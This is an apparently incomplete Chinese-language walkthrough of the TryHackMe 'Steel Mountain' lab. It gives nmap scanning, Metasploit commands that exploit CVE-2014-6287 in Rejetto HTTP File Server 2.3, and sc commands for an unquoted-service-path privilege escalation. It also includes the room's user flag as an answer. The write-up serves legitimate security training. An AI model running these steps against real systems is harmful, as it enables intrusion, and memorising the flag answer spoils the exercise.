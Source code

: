 # 钢山-wp-tryhackme-完全初学者

### 谁是本月最佳员工？

如提示所说:反向图像搜索（其实文件名就是这个人的名字）
``````
答案：Bill Harper
``````
## 初始访问

### 使用 nmap 扫描机器。运行 Web 服务器的另一个端口是什么？
``````
sudo nmap -Pn -A IP
``````
答案：8080

### 查看其他网络服务器。什么文件服务器正在运行？
通过8080端口访问靶机IP  
下面有一个HttpFileServer 2.3，点击后可以访问这个服务器的官方网站，域名是
http://www.rejetto.com/hfs/ , 所以是rejetto文件服务器(Rejetto HTTP File Server)   
答案：Rejetto HTTP File Server

### 利用此文件服务器的CVE编号是多少？
在exploit-db上查找rejetto,版本是2.3，符合条件的是CVE-2014-6287  
答案:2014-6287

### 使用Metasploit获取初始 shell。什么是用户标志？
使用metasploit
``````
msfconsole
search 2014-6287，
use 0
set RHOSTS IP
set RPORT 8080
run
``````
user.txt在桌面上，文件路径C:\User\bill\Desktop
答案：b04763b6fcf51fcd7c13abc7db4fd365

## 权限提升

### 请密切注意设置为 true 的 CanRestart 选项。显示为不带引号的服务路径漏洞的服务名称是什么？


答案：AdvancedSystemCareService9

### 什么是root标志？
停止原来的服务:  
sc stop AdvancedSystemCareService9  


重启恶意服务：  
sc start AdvancedSystemCareService9  
答案：

## 无需 Metasploit 即可访问和升级


### 我们可以运行什么 powershell -c 命令来手动查找服务名称？

答案：

